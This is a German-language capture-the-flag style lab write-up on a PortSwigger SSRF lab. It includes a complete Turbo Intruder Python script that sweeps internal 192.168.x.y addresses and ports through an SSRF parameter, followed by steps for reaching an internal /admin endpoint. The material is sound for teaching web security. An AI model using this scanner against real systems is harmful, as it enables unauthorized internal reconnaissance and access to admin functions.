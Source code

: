 
## Lab: Basic SSRF against another back-end system

Wir haben es eigentlich ähnlich wie beim letzten Lab gemacht mit dem einzigen Unterschied, wir haben erstmal schauen müssen welche Adresse im Netzwerk überhaupt erreichbar ist und haben über den Intruder erstmal ein paar Adressen ausprobiert.
1. Bruteforce mit Burp Intruder oder Turbo Intruder Extension

- Burp Intruder
![[abuse_loopback_request_other_back-end_systems1.png]]
- Turbo Intruder Extension
![[abuse_loopback_request_other_back-end_systems2.png]]
```python
# Minimaler SSRF-Scanner: 192.168.x.y:port -> PLACEHOLDER ersetzen, alles loggen
THIRD  = range(0, 255)     # 192.168.[0..254]
FOURTH = range(1, 255)     # .1..254
PORTS  = [80, 443, 8080]   # klein anfangen (erweiterbar)
BOTH_SCHEMES = set([80, 443, 8080])  # für diese Ports http & https testen

def _schemes(port):
    return ['http','https'] if port in BOTH_SCHEMES else ['http']

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED)
    for x in THIRD:
        for y in FOURTH:
            ip = '192.168.{0}.{1}'.format(x, y)
            for p in PORTS:
                for s in _schemes(p):
                    url = '{0}://{1}:{2}/'.format(s, ip, p)
                    req = target.req.replace('PLACEHOLDER', url)
                    # wie in deinem Beispiel: ohne Label, ganz simpel
                    engine.queue(req)

def handleResponse(req, interesting):
    # wie in deinem Beispiel: einfach ALLES in die Tabelle
    table.add(req)
```

- Bei erfolg testen wir noch diverse Pfade wie zB /admin im Repeater und im besten Fall treffen wir
![[abuse_loopback_request_other_back-end_systems3.png]]

- Dann schauen wir welche Anfrage ausgeführt wird und fügen den angepassten Link bei uns in die StockAPI mit der richtigen Adresse um diesen Befehl ausführen zu können
![[abuse_loopback_request_other_back-end_systems4.png]]
![[abuse_loopback_request_other_back-end_systems5.png]]
